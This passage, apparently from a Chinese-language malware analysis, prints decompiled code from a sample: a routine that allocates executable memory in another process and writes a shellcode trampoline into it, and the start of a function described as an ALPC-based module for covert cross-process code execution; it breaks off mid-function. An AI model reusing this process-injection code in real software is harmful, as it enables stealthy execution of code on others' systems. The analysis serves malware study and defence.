 ```
  v13 = VirtualAllocEx(hProcess, 0i64, v7, 0x3000u, 4u);
  v14 = v13;
if ( !v13 )
    goto LABEL_2;
  _mm_lfence();
    //第二次写入失败则LABEL_2
if ( !WriteProcessMemory(hProcess, v13, a3, v12, 0i64) )
    goto LABEL_2;
    //第三次分配一块内存
    //VirtualAllocEx(hProcess, 0, 0x20, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //分配 32 字节可执行内存（0x20）
  v15 = VirtualAllocEx(hProcess, 0i64, 0x20ui64, 0x1000u, 0x40u);
  v16 = v15;
if ( !v15 )
    goto LABEL_2;
  Buffer = 686588744;
  v18 = -29368;
  v20 = v14 - v15 - 11;
  v22 = v10 - v15 - 16;
  v19 = 13;
  v21 = -24;
  v23 = -2092384205;
  v24 = 10436;
  v25 = -61;
    //第三次写入失败
if ( !WriteProcessMemory(hProcess, v15, &Buffer, 0x20ui64, 0i64) )
  {
LABEL_2:
    *a5 = GetLastError();
    return0i64;
  }
  result = v16;
LABEL_12:
  *a5 = 0;
return result;
}

```

  
**sub_180005820()函数**  
：该函数是一个 高级进程间通信（ALPC）攻击模块，通过创建随机命名的ALPC端口并绑定注入的Shellcode，实现隐蔽的跨进程代码执行。  

```
__int64 sub_180005820()
{
/*
参数列表
*/
//1.生成16字节随机大写字母字符串
  v0 = time64(0i64);
  srand(v0);
  v1 = malloc(0x22ui64);
for ( i = 0i64; i < 16; ++i )
    v1[i] = rand() % 26 + 65;
  *(v1 + 16) = 0;
  v3 = malloc(0x3Cui64);
//2.构造形如 &#34;\RPC Control\ABCDEFGHIJKLMNOP&#34; 的ALPC端口名
  wcscpy_s(v3, 0x1Eui64, L&#34;\\RPC Control\\&#34;);
  wcscat_s(v3, 0x1Eui64, v1);
//3.获取ntdll.dll中的API函数
  ModuleHandleA = GetModuleHandleA(&#34;ntdll.dll&#34;);
  NtAlpcCreatePort = GetProcAddress(ModuleHandleA, &#34;NtAlpcCreatePort&#34;);
  v6 = GetModuleHandleA(&#34;ntdll.dll&#34;);
```